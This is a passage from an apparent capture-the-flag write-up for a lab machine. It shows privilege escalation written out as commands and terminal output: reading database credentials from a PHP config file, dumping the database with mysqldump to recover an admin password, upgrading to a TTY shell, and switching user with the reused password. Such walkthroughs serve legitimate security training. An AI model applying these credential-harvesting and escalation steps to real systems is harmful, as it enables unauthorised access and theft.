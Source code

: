 
#Enumeration
Poking around, you will find a db.php file in “/var/www/Magic”. This file contains the credentials to the database.

```
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

The MySQL client is not installed on the box so we have to find another way to view the contents of the database. Luckily we have “mysqldump” installed. With this we can dump the contents of the DB to a file.

```
www-data@ubuntu:/var/www/Magic/images/uploads$ mysqldump -u theseus -p Magic > db.dump
<es/uploads$ mysqldump -u theseus -p Magic > db.dump
Enter password: iamkingtheseus
```

Since this file is in the “images/uploads” we can easily download it to inspect it. Or you can just run **strings** against the dump. This will reveal the password of a admin user.

```
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
```

Checking the home directory you will see there is only one user.

```
cd /home
www-data@ubuntu:/home$ ls
ls
theseus
```

---

#User Privesc
At this point you have 2 potential password for user privesc. Before we can switch user, we have to get a full TTY shell.

```
www-data@ubuntu:/home$ su theseus
su theseus
su: must be run from a terminal
www-data@ubuntu:/home$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
```

Now you can get the user flag

```
www-data@ubuntu:/home$ su theseus
su theseus
Password: Th3s3usW4sK1ng
theseus@ubuntu:/home$ cd theseus
cd theseus
theseus@ubuntu:~$ ls -al
ls -al
total 84
drwxr-xr-x 15 theseus theseus 4096 Apr 16 02:58 .
drwxr-xr-x  3 root    root    4096 Oct 15  2019 ..
lrwxrwxrwx  1 theseus theseus    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 theseus theseus  220 Oct 15  2019 .bash_logout
-rw-r--r--  1 theseus theseus   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 theseus theseus 3771 Oct 15  2019 .bashrc
```